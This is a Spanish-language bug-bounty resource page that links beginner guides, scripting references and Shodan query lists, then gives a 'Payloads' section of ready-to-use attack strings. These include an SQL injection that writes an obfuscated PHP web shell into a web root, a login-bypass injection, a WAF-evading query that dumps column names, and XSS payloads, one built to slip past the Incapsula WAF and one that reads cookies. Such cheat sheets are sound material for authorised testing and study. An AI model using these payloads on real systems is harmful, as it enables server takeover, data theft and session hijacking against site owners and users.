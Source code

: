 **Info para principiantes:**
- [https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters](https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters)

### Ayudas: 

- Cheat Sheet Python: [https://blog.underc0de.org/cheat-sheet-python/](https://blog.underc0de.org/cheat-sheet-python/)

- La biblia de bash: [https://github.com/dylanaraps/pure-bash-bible](https://github.com/dylanaraps/pure-bash-bible)
- Machine Learning para la cyberseguridad: [https://github.com/jivoi/awesome-ml-for-cybersecurity](https://github.com/jivoi/awesome-ml-for-cybersecurity)
- Pagina con muchas tools utiles: [https://technisette.com/p/home](https://technisette.com/p/home)
	- [Databases](https://technisette.com/p/databases)
	- [A lot of Tools](https://technisette.com/p/tools)
- Consultas de búsqueda de Shodan: [https://github.com/jakejarvis/awesome-shodan-queries](https://github.com/jakejarvis/awesome-shodan-queries)

### Payloads:

**SQLi**

- SQL Web Shell:

```sql
' union select '<?php $sys = "sys"."tem"; $sys($_GET["c"]); ?>' into outfile 'C:\inetpub\wwwroot\robots.php' -- -`
```

- SQLi Payload:

```SQL
"' OR 1=1 --"@x.com
```

- SQLi WAF ByPass:

```sql
1,group_concat(column_name) /*%%!asd%%%%*/from/*%%!asd%%%%*/information_schema.columns where table_name=’users’ --+
```

**XSS**

- XSS One to bypass Incapsula WAF:

```js
<input id='a'value='global'><input id='b'value='E'>
<input 'id='c'value='val'><input id='d'value='aler'>
<input id='e'value='t(documen'><input id='f'value='t.domain)'>
<svg+onload[\r\n]=$[a.value+b.value+c.value](d.value+e.value+f.value)>
<b onmouseover=alert('Wufff!')>click me!</b>
"><script>propmt("mamunwhh")</script>
"><script>alert(document.cookie)</script>
/><svg src=x onload=confirm("1337");>
```
